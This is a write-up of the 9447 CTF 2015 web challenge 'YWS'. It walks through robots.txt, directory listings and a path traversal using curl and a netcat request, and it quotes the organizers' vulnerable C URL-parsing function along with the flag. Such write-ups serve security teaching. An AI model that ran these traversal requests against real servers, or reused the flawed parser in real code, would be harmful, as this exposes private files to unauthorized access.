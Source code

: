 # 9447 CTF 2015: YWS

**Category:** Web

> My friend wrote a cool web server. I'm sure he's stored some great doxxxs on the website. Can you take a look and report back any interesting things you find?
>
> The web page is at http://yws-fsiqc922.9447.plumbing
>
> Hint! Where does the website not want you to go?

## Writeup

The first thing to try is robots.txt.

```console
$ curl http://yws-fsiqc922.9447.plumbing/robots.txt
User-agnet: *
Disallow: /
Disallow: /..
Disallow: .
Disallow: ..
Disallow: /work
Disallow: /imegas/
Allow: /sounds/pljesus.wav
```

Seems the author had dyslexia, but navigating to the `/images` folder leads to a [directory listing](https://www.owasp.org/index.php/OWASP_Periodic_Table_of_Vulnerabilities_-_Directory_Indexing).

```html
$ curl http://yws-fsiqc922.9447.plumbing/images
<html>
<head>
<title>Directory listing for /images</title>
</head>
<body>
<h2>Directory listing for /images</h2>
<hr>
<ul>
<li><a href="/images/.">.</a>
<li><a href="/images/aangel2.gif">aangel2.gif</a>
<li><a href="/images/dj2.gif">dj2.gif</a>
<li><a href="/images/..">..</a>
<li><a href="/images/rand_tile1.jpg">rand_tile1.jpg</a>
<li><a href="/images/djangopowered126x54.gif">djangopowered126x54.gif</a>
<li><a href="/images/php.jpg">php.jpg</a>
<li><a href="/images/dj1.gif">dj1.gif</a>
<li><a href="/images/secret_images">secret_images</a>
<li><a href="/images/jboogie.gif">jboogie.gif</a>
<li><a href="/images/dj3.gif">dj3.gif</a>
<li><a href="/images/aangel1.gif">aangel1.gif</a>
<li><a href="/images/remail.gif">remail.gif</a>
</ul>
<hr>
</body>
</html>
```

You can also list the web app's root by adding 2 slashes.

```html
$ curl http://yws-fsiqc922.9447.plumbing//
<html>
<head>
<title>Directory listing for /</title>
</head>
<body>
<h2>Directory listing for /</h2>
<hr>
<ul>
<li><a href="//.">.</a>
<li><a href="//images">images</a>
<li><a href="//sounds">sounds</a>
<li><a href="//400.html">400.html</a>
<li><a href="//..">..</a>
<li><a href="//robots.txt">robots.txt</a>
<li><a href="//index.html">index.html</a>
</ul>
<hr>
</body>
</html>
```

Following the hint, we have to do a [directory traversal attack](https://www.owasp.org/index.php/Path_Traversal) and, since directory listing is enabled on the server, we can simply do it on paths instead of specific files.
Trying to list `/..` with curl didn't work and simply showed the website's main page.

```console
$ curl 'http://yws-fsiqc922.9447.plumbing/..'
```

Adding multiple `../` didn't work either.

It finally worked by adding the directory traversal as a query param.

```html
$ curl 'http://yws-fsiqc922.9447.plumbing/?../..'
<html>
<head>
<title>Directory listing for /..</title>
</head>
<body>
<h2>Directory listing for /..</h2>
<hr>
<ul>
<li><a href="/../9447{D1rect0ries_ARe_h4rd}">9447{D1rect0ries_ARe_h4rd}</a>
<li><a href="/../.">.</a>
<li><a href="/../..">..</a>
<li><a href="/../gws">gws</a>
<li><a href="/../files">files</a>
</ul>
<hr>
</body>
</html>
```

Flag: `9447{D1rect0ries_ARe_h4rd}`

## curl gotcha

After the CTF, I followed discussions on IRC and learned that curl will "fix" the path for you before sending the query.

```console
$ curl -v http://127.0.0.1:8080/../../..
...
> GET / HTTP/1.1
...
```

Most people seem to have used BurpSuite or a plain connection with netcat to get the flag:

```console
$ printf "GET /.. HTTP/1.1\r\n\r\n" | nc yws-fsiqc922.9447.plumbing 80
```

## Why adding it as a query param worked

I didn't understand why adding the directory traversal after a `?` worked, since the vulnerability was in the path, not a query param.

I looked at the source code that the organizers uploaded after the CTF, and it turns out that the `extractUrl` function will strip extra levels of `../`.
It only keeps the last one, so it strips the `?` at the same time: `?../..` becomes `/..`.
Here is the function from the source code:

```c
int extractURL(char *urlS, int urlSize, char *fileN, int fileNMaxSize) {
    // Verify it starts with '/'.
    if (urlSize < 1 || urlS[0] != '/') return -1;
    int curS = 1;
    fileN[0] = '/';
    fileN[1] = 0;
    int i;
    for (i = 1; i < urlSize; i++) {
        if (curS == fileNMaxSize) {
            return -1;
        }
        fileN[curS++] = urlS[i];
        fileN[curS] = 0;
        if (strcmp(&fileN[curS - 3], "../") == 0) {
            curS -= 4;
            while (fileN[--curS] != '/');
            curS++;
        }
        if (strcmp(&fileN[curS - 2], "./") == 0) {
            curS -= 2;
        }
    }
    if (strcmp(fileN, "/") == 0) {
        strcpy(fileN, "/index.html");
    } else if (fileN[curS - 1] == '/') {
        fileN[curS - 1] = 0;
    }
    return 0;
}
```
